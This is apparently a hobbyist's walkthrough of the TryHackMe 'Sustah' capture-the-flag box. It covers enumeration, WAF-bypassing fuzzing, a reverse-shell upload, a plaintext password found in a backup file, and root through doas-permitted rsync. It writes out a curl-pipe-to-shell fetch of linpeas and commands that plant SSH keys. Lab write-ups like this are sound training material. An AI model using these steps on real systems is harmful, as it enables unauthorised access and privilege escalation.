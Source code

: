 This is a write up for the box SUSTAH on https://tryhackme.com/

First i add sustah to my /etc/hosts:

sudo vim /etc/hosts 

[![https://imgur.com/9VQSlLv.png](https://imgur.com/9VQSlLv.png)](https://imgur.com/9VQSlLv.png)

## Enumeration

First we start with a quick nmap scan.

[![https://imgur.com/dFiZBh9.png](https://imgur.com/dFiZBh9.png)](https://imgur.com/dFiZBh9.png)

Our gobuster doesnt give us any endpoints so lets look further.

There we can see the http port 8085 lets check it out.

[![https://imgur.com/nVxVCVL.png](https://imgur.com/nVxVCVL.png)](https://imgur.com/nVxVCVL.png)

Lets go for another gobuster on this port..

[![https://imgur.com/NJ6qyr5.png](https://imgur.com/NJ6qyr5.png)](https://imgur.com/NJ6qyr5.png)

So far we are pretty clueless.

Lets take a closer look at the inputfield.

We could try to bruteforce the right number with a method called fuzzing.
For that we create a wordlist of a specific range of numbers and lets it try each of them:

The tool we are going to use for that is called ffuf:

https://github.com/ffuf/ffuf

If we recall the description of the box:

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"
We probably also have to bypass a WAF.

Lets look at header injection by portswiggger:
https://portswigger.net/web-security/host-header/exploiting

By injecting the header in this way we can make the server belive the requests are coming from itself and therefor are trustworthy.

[![https://imgur.com/UbV0Trm.png](https://imgur.com/UbV0Trm.png)](https://imgur.com/UbV0Trm.png)

Now we can create our wordlist, we could use a onlinetool but we should try to write as much aspossible on our own :)

[![https://imgur.com/wnPqXyh.png](https://imgur.com/wnPqXyh.png)](https://imgur.com/wnPqXyh.png)

Now we can start our fuzzer tool:

We have to specify the wordlist we created with our little script, the headers to bypass the WAF, what we want to FUZZ, and the url.
I also added -fs which is a filter for the size 1004 because that is the normal response we would get if we have the wrong number.

[![https://imgur.com/4dDk7Ec.png](https://imgur.com/4dDk7Ec.png)](https://imgur.com/4dDk7Ec.png)

After inserting the right number we get a PATH.
After playing arround i found a adming loginpage with default credentials.
There we can upload files. 
Lets try to upload a reverseshell and run a nc listener.

[![https://imgur.com/pm551w8.png](https://imgur.com/pm551w8.png)](https://imgur.com/pm551w8.png)

Seems to work now we activate it by finding its location and clicking on it. ( or curl it )

[![https://imgur.com/iNkmr2K.png](https://imgur.com/iNkmr2K.png)](https://imgur.com/iNkmr2K.png)

Yes, it worked ! We are in :)

[![https://imgur.com/9NrVN9h.png](https://imgur.com/9NrVN9h.png)](https://imgur.com/9NrVN9h.png)

After searching for a good amount of time i find a backupfile of /etc/passwd with the password of kiran written in plaintext:

[![https://imgur.com/BZ4Iov1.png](https://imgur.com/BZ4Iov1.png)](https://imgur.com/BZ4Iov1.png)

First thing to do after: 
su kiran

is to create ssh keys

mkdir .ssh
ssh-keygen
touch authorized_keys
cat id_rsa.pub > authorized_keys

Now we can ssh into kiran with the -i parameter and the id_rsa key.


## Privescalation

After not finding any obvious vulnerabilities i decided to run linpeas.
Set up a simple python webserver on your host:

python3 -m http.server 1337

( you have to download linpeas first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS )

then on the target in the /tmp directory:

curl http://youriphere:1337/linpeas.sh | sh

This will execute linpeas automatically.

The first thing that catches my eye is this doas.conf file which says we can run rsync as root:

[![https://imgur.com/JwnI0fg.png](https://imgur.com/JwnI0fg.png)](https://imgur.com/JwnI0fg.png)

So i tried ( i went to GTFOBINS to find privesc for rsync ) :   -> https://gtfobins.github.io/gtfobins/rsync/

[![https://imgur.com/sukmjzY.png](https://imgur.com/sukmjzY.png)](https://imgur.com/sukmjzY.png)

We can't run sudo since we don't have the sudo password. 

But what is this doas anyway? 

It seems to be a replacement for sudo where we can run commands as another user!

[![https://imgur.com/AQGteuV.png](https://imgur.com/AQGteuV.png)](https://imgur.com/AQGteuV.png)

So lets try to run rsync as user root since we dont need a password!

[![https://imgur.com/R4uinio.png](https://imgur.com/R4uinio.png)](https://imgur.com/R4uinio.png)

![Celebration](https://media.giphy.com/media/vmon3eAOp1WfK/giphy.gif)

Thank you for reading! 
